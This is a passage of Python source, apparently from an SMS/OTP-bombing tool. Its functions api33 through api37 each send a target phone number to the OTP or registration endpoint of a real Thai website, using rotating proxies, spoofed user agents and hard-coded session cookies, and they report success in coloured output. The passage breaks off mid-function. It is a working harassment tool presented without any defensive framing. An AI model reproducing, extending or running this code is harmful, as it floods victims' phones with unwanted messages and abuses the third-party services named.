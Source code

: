 def api33(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = post("https://www.vegas77slots.com/auth/send_otp",data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=21076",headers={"content-type": "application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "vegas77slots=pj5kj4ovnk2fao1sbaid2eb76l1iak7b"})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api34(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username": phone,"password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api35(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.msport1688.com/auth/otp_sender",headers={"content-type": "application/x-www-form-urlencoded","cookie": "msp_ss_client=nin5curi8elq4364dlslffs5ennnv8oo; _ga=GA1.1.867791689.1664019874; _ga_1YLLB0C2FF=GS1.1.1664019873.1.1.1664019875.0.0.0","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"},data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")

def api36(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.1112delivery.com/api/v1/otp/create",headers={"content-type": "application/json;charset=UTF-8","user-agent": generate_user_agent(),"accept": "application/json, text/plain, */*"},json={"phonenumber":phone,"language":"th"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api37(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://app.iship.cloud/api/ant/request-otp/{phone}",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36","cookie": "_fbp=fb.1.1664699330289.47112595; XSRF-TOKEN=eyJpdiI6Ijk3cVRMUndzZ2FUME8wV2VzRXFaWWc9PSIsInZhbHVlIjoiQjRkNzlNYXR2TWtSWmNySlFYVjBoQk80RGJMR215RXVFUjRuMTFNYm5ocGRDRmNGcHNjWmpOeUdnOWlPbmFhVXA5eG1LUlB2SVZEMjRFWEVITTRZV1hzZUtZenArenZjK0R3UE5OTUdTQkVWUG1tYmkrTG1NWWFiTUZOZ1NRMlIiLCJtYWMiOiI3Y2M1OGJkMzg2MzZkZDYwNjlmNjNkMmFkYWZlZDVkNjliZGJjMjUwN2MyMjJmYzgxODE3ZGYxOWY1NWU4MzhlIiwidGFnIjoiIn0%3D; iship_session=eyJpdiI6IjdueEZQTU5Kc0FXZ0hjeVF0L2s2WVE9PSIsInZhbHVlIjoidHNzZ1RINDhta1BnUkFic29hdFlMNU8zVWt0MGZYbUVMb1Q0ZjM0OVR5cFlSbE01NlNuMWRoeGF4SldiVHN3U3JFZWg5dnJvMEZHbnF6cnlNdG45SmZjSGxqRkNRN0w0T3oyclBHc09ZM2svd3VZZkl4TG9NRHFLMTIxeGhvd2oiLCJtYWMiOiJhMTBjZThjNGU5M2Y0NjM1MTQ4ZTI4MGFmMzkxMmQ4ZmY0NjljNGM5YjBkZWZkMGIxYTM5Y2Y5MDgyNWZkOTk1IiwidGFnIjoiIn0%3D; _gcl_au=1.1.1744992984.1664699333; _ga_5H8RG35JM3=GS1.1.1664699330.1.1.1664699332.0.0.0; _gid=GA1.2.1851918371.1664699333; _gat_UA-208577766-1=1; _ga=GA1.1.1543229521.1664699330; _ga_9QF6J7SNMX=GS1.1.1664699332.1.0.1664699332.0.0.0"},proxies={'http': 'http://' + random.choice(s)})